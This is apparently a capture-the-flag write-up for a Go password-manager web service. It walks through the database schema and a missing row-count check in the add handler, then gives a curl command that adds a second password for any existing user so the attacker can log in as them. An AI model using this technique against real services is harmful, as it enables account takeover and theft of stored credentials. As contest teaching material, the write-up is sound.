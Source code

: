# passmgr

## Description

`passmgr` is a web-service written in Golang. Source code is given. 

The service allows you to register (with `login` and `password`), then log in. 

![](passmgr1.png)

After logging in, you can manage (add, view) your private list of passwords.

![](passmgr2.png)
![](passmgr3.png)

## Flags

Flag ID is the username, flag is the password for some website.

## Research

The service has not so many files to research:

    $ ls -1
    db.go
    docker-compose.yml
    Dockerfile
    go.mod
    go.sum
    index.go
    index.go.html
    main.go
    util.go


From `docker-compose.yaml` we can learn, that service consists of two docker containers: the database and the application. 
The application container listens to 80 port. 

In `db.go` file there are database models and code to connect to the database.

### Database structure

Table "public.records":

   Column   |           Type           | Collation | Nullable |               Default               
------------|--------------------------|-----------|----------|-------------------------------------
 id         | bigint                   |           | not null | nextval('records_id_seq'::regclass)
 created_at | timestamp with time zone |           |          | 
 updated_at | timestamp with time zone |           |          | 
 user       | character varying(64)    |           |          | 
 pass       | character varying(64)    |           |          | 
 site       | character varying(64)    |           |          | 
 user_ref   | character varying(64)    |           |          | 



Table "public.sessions":

   Column   |           Type           | Collation | Nullable |               Default                
------------|--------------------------|-----------|----------|--------------------------------------
 id         | bigint                   |           | not null | nextval('sessions_id_seq'::regclass)
 created_at | timestamp with time zone |           |          | 
 updated_at | timestamp with time zone |           |          | 
 cookie     | character varying(64)    |           |          | 
 user       | character varying(64)    |           |          | 


In `index.go.html` and `index.go` we see template for the response web page and model for it.

In `util.go` there are some helper functions to manage environment variables, cookies and random strings.

These files contain no (known) vulnerabilities.

The most important file is `main.go`, it contains http handlers and the logic of the service.

The first table, `records`, contain both `user/pass` pairs for logging in, and `user/pass` pairs stored in the private area, 
they are distinguished by the `user_ref` field:


 id  |   user   |               pass                |             site              | user_ref 
-----|----------|-----------------------------------|-------------------------------|----------
   1 | a164u8x3 | e8s1cmgboqjo                      |                               | 
   2 | a164u8x3 | FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF= | https://www.fydu.3kauixaw.com | a164u8x3


Here,

* `a164u8x3 / e8s1cmgboqjo` is a login and password to log in (`user_ref` is empty),
* `a164u8x3 / FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF= / https://www.fydu.3kauixaw.com` is a private info for the user (`user_ref` is non-empty).

We can't log in as `a164u8x3 / FFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF=`, because in `func handleLogin()` there is a check:

    :::go
    result := db.Where("\"user\" = ? AND pass = ? AND user_ref = ''", user, password).Find(&record)


The second table, `sessions`, contains logged-in users sessions,

 id  |              cookie              |   user   
-----|----------------------------------|----------
 413 | BhfENBVRQfrqGHSnXvAmfTtBTWQeEcBy | postgres


There is a logical error in `func handleAdd()`. This functions adds user/pass/site record for the logged-in user.
If `ctf` cookie is set, but session is not found in the DB, `result.Error` will be `nil` (DB query completed 
successfully). The service doesn't check `result.RowsAffected` (if any session was found), so a new record will 
be created with empty `user_ref`. The database doesn't prohibit to add several records for the same `user`. So, 
we can add the second password for existing user and log in with both passwords! After logging in, we can see the 
private info (flag).


    :::go
    func handleAdd(c *gin.Context) {
            ...
            
            cookieValue, err := c.Cookie(cookieName)
            if err != nil || len(cookieValue) == 0 {
                    c.Redirect(http.StatusFound, "/")
                    return
            }
    
            var session Session
            result := db.Where("cookie = ?", cookieValue).Find(&session)
            if result.Error != nil {                                  // BUG IS HERE
                    c.HTML(http.StatusOK, template, gin.H{})
                    return
            }
    
            result = db.Create(&Record{
                    User:    user,
                    Pass:    password,
                    Site:    address,
                    UserRef: session.User,
            })
            
            ...
    }


## Exploit

The main idea is to add second password for existing user:

`curl https://passmgr.team<N>.ctf.hitb.org/add -d "address=nonce&user=<USER>&password=<PASSWORD>" --cookie "ctf=nonce"`

Full exploit can be found [here](../../sploits/passmgr/exploit.sh).
